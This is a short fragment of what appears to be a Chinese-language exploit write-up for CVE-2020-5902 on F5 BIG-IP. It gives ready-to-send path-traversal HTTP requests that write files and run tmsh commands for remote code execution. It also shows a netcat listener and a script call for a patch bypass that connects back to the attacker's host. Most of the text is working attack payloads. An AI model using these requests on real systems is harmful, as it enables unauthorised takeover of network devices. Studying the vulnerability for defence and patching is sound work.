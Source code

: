 ```
GET /tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp?fileName=/tmp/balabalabla&content=id11
```

![](cve-2020-5902/5.png)

RCE：

```
GET /tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin
```

执行命令：https://devcentral.f5.com/s/question/0D51T00006i7hq9/tmsh-command-to-list-all-users-in-all-partitions

![](cve-2020-5902/3.png)



2020 年 7 月 8 日绕过，通过 hsqldb + 序列化进行绕过补丁，利用方案：

```
nc -l -v -p localport
./CVE-2020-5902.sh <server> <localip> <localport>
```
